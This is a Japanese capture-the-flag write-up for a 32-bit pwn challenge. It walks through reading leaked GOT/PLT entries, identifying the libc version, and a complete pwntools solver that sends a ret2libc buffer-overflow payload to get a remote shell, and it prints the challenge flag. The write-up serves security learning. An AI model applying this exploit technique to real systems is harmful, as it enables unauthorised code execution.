

## Here are GOT and PLT (435pt / 14 solves) [★★★☆]
> シェルを起動し、フラグを取得してください。
> 
> **ASLR は有効になっています。**
> 
> 
> 本問題のターゲットマシンを起動してください。起動が完了したら、VPN接続マシンまたはBrowser Kaliから `nc <ターゲットのIP> 8108` コマンドで接続してください。
> 
> 
> 問題ファイルをダウンロード: gotplt.zip
> 
> ZIPのハッシュ値(SHA256): `e750fa4419eb54468e4554bca39d07a67d7ab3c96f02afa9bb51031ff610de1a`

こちらもなんとソースコード無し。挙動を知るべくバイナリを実行してみる。
```
This is my .plt section (virtual address: 0x8049020, size: 0xe0)
08049020: ff 35 (f8 bf 04 08) ff 25 fc bf 04 08 00 00 00 00
08049030: ff 25 (00 c0 04 08) 68 00 00 00 00 e9 e0 ff ff ff
08049040: ff 25 (04 c0 04 08) 68 08 00 00 00 e9 d0 ff ff ff
08049050: ff 25 (08 c0 04 08) 68 10 00 00 00 e9 c0 ff ff ff
08049060: ff 25 (0c c0 04 08) 68 18 00 00 00 e9 b0 ff ff ff
08049070: ff 25 (10 c0 04 08) 68 20 00 00 00 e9 a0 ff ff ff
08049080: ff 25 (14 c0 04 08) 68 28 00 00 00 e9 90 ff ff ff
08049090: ff 25 (18 c0 04 08) 68 30 00 00 00 e9 80 ff ff ff
080490a0: ff 25 (1c c0 04 08) 68 38 00 00 00 e9 70 ff ff ff
080490b0: ff 25 (20 c0 04 08) 68 40 00 00 00 e9 60 ff ff ff
080490c0: ff 25 (24 c0 04 08) 68 48 00 00 00 e9 50 ff ff ff
080490d0: ff 25 (28 c0 04 08) 68 50 00 00 00 e9 40 ff ff ff
080490e0: ff 25 (2c c0 04 08) 68 58 00 00 00 e9 30 ff ff ff
080490f0: ff 25 (30 c0 04 08) 68 60 00 00 00 e9 20 ff ff ff

This is my .got.plt section (virtual address: 0x804bff4, size: 0x40)
0804bff4: (08 bf 04 08) (40 da fd f7) (80 8f fb f7) (d0 21 ef f7)
0804c004: (60 55 d8 f7) (20 b5 db f7) (66 90 04 08) (f0 c6 e6 f7)
0804c014: (86 90 04 08) (96 90 04 08) (30 c0 e6 f7) (80 de e7 f7)
0804c024: (c6 90 04 08) (10 86 dd f7) (f0 df e7 f7) (10 d2 e6 f7)

I'll even show some function address!
- munmap() addr is 80490e0
- open() addr is 80490a0
(Note: The above GOT dump is taken after these functions are called at least one time

Now, let's exploit!
Name?
```

`Now, let's exploit!`までがざっと表示された後、`Name?`で入力を求められるようになっている。恐らくBoFでのシェル起動が本問題の目的であると思われるが、`system()`を呼び出すためにはまずlibcのベースアドレスを知る必要があるのに加え、この問題ではlibcが配布されておらず、使われているlibcの特定もしなければならない。  
普通の問題なら`puts()`などでlibcのアドレスをリークさせる手段が良く用いられているが、今回はありがたいことにPLTとGOTの一部に加え、`munmap@plt`と`open@plt`を教えてくれているため、これを利用させてもらう。なお、PLT・GOTについての解説は[ここ](https://keichi.dev/post/plt-and-got/)とかが参考になった。
```
$ objdump -d -M intel ./vuln | grep 80490e0
080490e0 <munmap@plt>:
 80490e0:       ff 25 2c c0 04 08       jmp    DWORD PTR ds:0x804c02c
 80495cf:       e8 0c fb ff ff          call   80490e0 <munmap@plt>
 80496bd:       68 e0 90 04 08          push   0x80490e0
```

与えられる情報をそのまま利用しても良いが、ここでは分かりやすさのため`objdump`を使う。`munmap()`の実際の関数アドレスは`0x804c02c`にセットされることが分かるので、上で言うところの`f0 df e7 f7`が関数アドレスになる。（リトルエンディアンに注意）同様に`open()`の関数アドレスも分かるので、この2つのアドレスの下2, 3桁を[このサイト](https://libc.blukat.me)に使って、libcの種類を特定する。  
ただし、関数アドレス特定の作業は**必ず本番環境で行う**こと。ローカル上で行っても遠回しに`ldd`しているだけになってしまう。

↓こんな感じに使う
</img>

今回の攻撃では`libc6_2.39-0ubuntu9_i386.so`を使った。これによりlibcのベースアドレスも特定できるようになったので、いよいよ攻撃に移る。ソルバは以下の通り。
```python
from pwn import *

target = './vuln'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

libc = ELF('./libc6_2.39-0ubuntu9_i386.so')
proc = remote('target_ip', 8108)
#libc = ELF('/lib32/libc.so.6')
#proc = process(target)

addr_open = 0
addr_munmap = 0

proc.recvuntil('0804c014: ')
addr_open = proc.recvline()[29:40].decode().replace(' ', '')
addr_open = bytes.fromhex(addr_open)[::-1].hex()
#print(addr_open)

libc_base = int(addr_open, 16) - libc.symbols['open']
addr_system = libc_base + libc.symbols['system']
addr_binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

payload = b'A' * 16
payload += pack(addr_system)
payload += b'A' * 4
payload += pack(addr_binsh)

proc.sendlineafter('Name? ', payload)

proc.interactive()
```

実行するとフラグが得られた。
```
[*] Switching to interactive mode
Nice to meet you, AAAAAAAAAAAAAAAA0\xd4\xd5\xf7AAAA\xe8\x1d\xed\xf7
$ ls
flag.txt
vuln
$ cat flag.txt
flag{G0T_3NTRY_W1TH0UT_L1BC_ADDR}
```

### `flag{G0T_3NTRY_W1TH0UT_L1BC_ADDR}`